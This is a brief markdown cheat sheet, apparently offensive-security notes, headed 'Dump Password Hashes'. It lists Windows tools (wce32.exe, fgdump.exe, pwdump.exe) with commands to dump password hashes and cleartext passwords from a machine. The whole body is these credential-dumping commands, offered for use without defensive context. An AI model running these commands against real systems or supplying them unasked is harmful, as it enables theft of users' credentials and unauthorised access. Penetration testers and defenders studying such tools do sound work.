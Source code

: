 # Dump Password Hashes

## Dump Hashes

### wce32.exe

```
# Dump password hashes
wce32.exe 

# Dump cleartext passwords
wce32.exe -w
```

### fgdump.exe

```
# Dump password hashes
fgdump.exe
type pwdump
```

### pwdump.exe

```
# Help
pwdump.exe -h
```

